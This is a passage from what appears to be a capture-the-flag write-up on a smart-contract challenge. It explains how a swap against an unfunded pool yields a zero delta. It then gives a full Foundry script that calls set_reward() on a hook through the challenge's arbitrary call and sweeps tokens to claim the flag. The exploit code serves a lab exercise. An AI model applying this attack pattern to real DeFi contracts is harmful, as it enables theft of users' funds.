 One might wonder how the swap goes through, if we are giving an input of `1001 ether`, while not having that amount.
In `challenge.sol`, the pool was initialized, but was without liquidity.

This means that in the `Pool.sol` contract, no swapping actually takes place in the `swap` function, resulting in the delta calculated here to result in 0:
```solidity
swapDelta = toBalanceDelta(
    (params.amountSpecified - amountSpecifiedRemaining).toInt128(), amountCalculated.toInt128()
);
```
Which means that no tokens are requested from us.

We can now write a Foundry script to deploy our contract and make our swap:
```solidity
// script/Solve.s.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {HookSweep} from "src/HookSweep.sol";
import {Challenge} from "src/challenge.sol";

contract Solve is Script {
    function run() external {
        uint256 privateKey = 0xf2bb452a08e478f366f18a4c3e7d166f1ceac95a2e06b7f6ec2f45914d4ccee3;
        address challenge = 0x9fE46736679d2D9a65F0992F2272dE9f3c7fa6e0;
        // fetched addresses
        address token = 0x75537828f2ce51be7289709686A69CbFDbB714F1;
        address hook = 0x7400872EE85d4546F9CB4Fa776c43B5E0c78C0C0;
        address manager = 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512;

        vm.startBroadcast(privateKey);
        Challenge(payable(challenge)).arbitrary(hook, abi.encodeWithSignature("set_reward()"));
        HookSweep sweeper = new HookSweep(hook, manager, token);
        sweeper.swap();
        vm.stopBroadcast();
    }
}
```

Running this script using `forge script` yields us our expected result and we can now get our flag:

![image](https://github.com/user-attachments/assets/ed898de6-6042-4ead-abbc-6411c1ac857d)



